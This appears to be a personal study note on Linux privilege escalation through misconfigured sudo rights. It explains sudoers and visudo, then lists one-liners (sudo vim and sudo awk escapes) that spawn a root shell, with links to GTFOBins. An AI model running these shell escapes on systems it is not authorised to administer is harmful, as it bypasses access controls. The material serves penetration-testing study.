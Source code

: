 #### Sudo Overview
[[Linux Privilege Escalation]]
Sudo is a command in #Linux that allows users to run commands with privileges that only #root user have. It helps users to do tasks with administrative power without logging in as the root user, though sometimes it can be risky.

These users who can use the **sudo*** command need to have an entry in the **sudoers** file located at ****“/etc/sudoers”****.

***visudo*** - edits  the sudoers file in a safe fashion, analogous to ***vipw***.  visudo locks
       the sudoers file against multiple simultaneous edits, performs basic validity checks,
       and  checks  for syntax errors before installing the edited file.  If the sudoers file
       is currently being edited you will receive a message to try again later.
```
   sudo -l  # list commands allowed by sudo users
   sudo vim -c ':!/bin/sh' # switch user to root
   sudo vim -c ':!/bin/bash'
   sudo awk 'BEGIN {system("/bin/sh")}'
```
Great resources to #exploit sudo escaping
GTFOBins - [https://gtfobins.github.io/](https://gtfobins.github.io/)
Hacker Article - https://www.hackingarticles.in/linux-privilege-escalation-using-exploiting-sudo-rights/
